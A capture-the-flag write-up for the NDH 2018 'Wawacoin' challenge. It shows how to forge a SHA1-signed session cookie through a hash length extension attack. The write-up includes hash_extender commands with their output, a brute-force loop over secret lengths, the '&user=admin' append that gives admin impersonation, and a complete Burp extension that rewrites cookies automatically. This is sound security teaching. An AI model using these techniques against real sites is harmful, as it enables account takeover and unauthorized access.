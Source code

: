 ```yaml
---
title: Quals NDH 2018 - Wawacoin
authors: cnotin
layout: writeup
---
```

Solves: 23 / Points: 400 / Category: Crypto/web
## Challenge description
> Sell your house, buy WawaCoin cryptocurrency cyber-blockchain, ???, profit.

We have a website about a new cryptocurrency named *Wawacoin*. The registration is closed but a demo interface is offered.
It connects us automatically as the *demo* user, then we have to enter our credit card information. However the website refuses it, stating that we do not have enough money.

## Challenge resolution
### Information leak
First, we find that the login form discloses that the *admin* account is valid, since it returns different error messages ("Bad username" / "Bad password").

### Crypto cookie
This challenge is all about crypto(graphy|currency) since when logging as the *demo* user we are assigned a `session` cookie with the following content:

```
session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861
```

The `session` cookie has two parts:
* Hex-encoded content, whose value is `user=demo`
* SHA1 signature, assumed based on its length
We also notice that any modification of either part triggers either a 500 error, or a redirection to the login page.

Then, we try to find common crypto flaws such as padding oracles. We can try a [hash length extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) too and observe the resulting behavior.

This attack happens when a flawed Message Authentication Code algorithm is based on the concatenation of `secret+payload`: by having the hash of this string, we can append arbitrary data to the payload and compute a valid hash without knowing the secret. A tool can be used to simply *extend* the hash based on the current known value.

### Hash length extension attack
We use the [*hash_extender*](https://github.com/iagox86/hash_extender) tool that supports SHA1.

We already have the format `--format sha1`, the original signature `--signature`, the original data `--data user=demo`, and we want to start by appending just one char `--append A`.
We still miss the length of the secret, so let's bruteforce it!
Here is the output for two different `--secret` lengths:
```shell_session
$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 1
Type: sha1
Secret length: 1
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005041

$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 2
Type: sha1
Secret length: 2
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005841
```

The signature is identical, only the new string is slightly different.
Therefore, to bruteforce the secret, we have a fixed signature and generate the resulting values for a length of 0 to 30:

```shell
for i in $(seq 0 30); do ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret $i | grep "New string" | cut -d' ' -f3; done
```

We use *Burp Intruder* to try all the generated new strings, with the fixed signature. The payload for the length 16 gives an interesting result:
![Burp Intruder]({{ site.url }}/assets/wawacoin-intruder.png){: .image }

Note that the username is displayed in the HTML page on the logout button: it is very helpful to see how our payload is decrypted.
We confirm that we can successfully append characters to the encrypted `session` cookie which is a very nice power to have!

### Creating a custom *Burp* extension
We still need to find a vulnerability: something interesting to trigger with this string that the website is surely taking for trusted :smirk:

Generating a payload to probe for a vulnerability, testing it on the website, and retrying again and again is time-consuming. In this case, we like to create a *Burp* extension. You can find a very good and simple [example by Nicolas Grégoire / Agarri](http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html) in Python [HTTPInjector.py](http://www.agarri.fr/docs/HTTPInjector.py).

In *Burp*, just go to Extender -> APIs and click on *Save interface files*. Extract the files in a `burp` folder and put your `.py` extension next to this folder.

The full code of the extension is available at the end of this writeup and on our [GitHub repository](https://github.com/Tipi-Hack/ctf-tools/blob/master/web/burp_extension-hash_extender.py).
It captures every outgoing request, from any tool (Proxy, Repeater, Scanner...), gets the clear-text content of the `session` cookie and encrypts it using *hash_extender*. Just keep in mind that your payload is appended to the original payload.

It works wonders and is very efficent, isn't it? :ok_hand:
![Burp extension]({{ site.url }}/assets/wawacoin-burp-extension.png){: .image }

### Finding a vulnerability and the flag
Thanks to our extension, we quickly try several things and come to the conclusion that we can try to impersonate the admin.

If the original payload is: `user=demo`, what would happen if we append `&user=admin`?
The anwser is that the second `user` overwrites the first, we impersonate *admin* and get the flag:
![Got admin]({{ site.url }}/assets/wawacoin-got-admin.png){: .image }

![Got flag]({{ site.url }}/assets/wawacoin-flag.png){: .image }

Flag: `NDH{c7774051db4b880da67598770c955ff99363e76d}`

## Appendix: Burp extension
```python
# encoding: utf8
# Burp extension for the 'Wawacoin' NDH quals challenge
# By Clément Notin @cnotin
# Based on HTTPInjector by @Agarri_FR // http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html

from burp import IBurpExtender
from burp import IHttpListener
import subprocess

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._helpers = callbacks.getHelpers()

        callbacks.setExtensionName("NDH quals")

        callbacks.registerHttpListener(self)

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        # only process requests
        if not messageIsRequest:
            return

        req = messageInfo.getRequest()
        req = self._helpers.bytesToString(req)

        if not "session=" in req:
            return
        if "GET /static" in req:
            return

        session = req.split("session=")[1].split("\r\n")[0]
        print "session before=" + session

        output = subprocess.check_output(["/root/tools/hash_extender/hash_extender",
                                          "--data", "user=demo",
                                          "--signature", "9183ff6055a46981f2f71cd36430ed3d9cbf6861",
                                          "--format", "sha1",
                                          "--secret", "16",
                                          "--append", session
                                          ])
        sig = output.split("New signature: ")[1].split("\n")[0]
        data = output.split("New string: ")[1].split("\n")[0]

        session_new = "%s|%s" % (data, sig)
        print "session after ="+session_new

        req = req.replace(session, session_new)

        req = self._helpers.stringToBytes(req)

        messageInfo.setComment("payload %s" % session)
        messageInfo.setHighlight("yellow")

        messageInfo.setRequest(req)
```
